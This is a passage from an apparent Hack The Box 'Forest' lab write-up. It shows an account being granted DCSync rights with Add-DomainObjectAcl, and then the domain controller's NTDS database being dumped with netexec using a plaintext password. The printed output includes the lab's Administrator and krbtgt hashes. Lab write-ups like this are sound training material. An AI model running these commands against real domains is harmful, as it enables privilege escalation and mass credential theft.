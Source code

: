 ```shell
  -RightGUID RIGHTS_GUID
  -ACEType [{allowed,denied}]
  -Inheritance
  -Server SERVER
  -OutFile OUTFILE
```

Finally, grant the `DCSync` rights by running the appropriate command.

```shell
PV > Add-DomainObjectAcl -TargetIdentity 'dc=htb,dc=local'  -PrincipalIden>
[2024-12-04 13:46:24] [Add-DomainObjectACL] Found target identity: DC=htb,DC=local
[2024-12-04 13:46:24] [Add-DomainObjectACL] Found principal identity: CN=tony,CN=Users,DC=htb,DC=local
[2024-12-04 13:46:24] DACL modified successfully!
```

Once we have obtained `DCSync` privileges, we can dump the `NTDS` database using `netexec` by running the following command with `tony`'s account:


```shell
┌──(frodo㉿kali)-[~/hack-the-box/forest]
└─$ nxc smb 10.129.59.175 -u tony -p 'Welcome@123' --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] y
SMB         10.129.59.175   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.59.175   445    FOREST           [+] htb.local\tony:Welcome@123 
SMB         10.129.59.175   445    FOREST           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.129.59.175   445    FOREST           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.59.175   445    FOREST           htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
SMB         10.129.59.175   445    FOREST           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
SMB         10.129.59.175   445    FOREST           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
```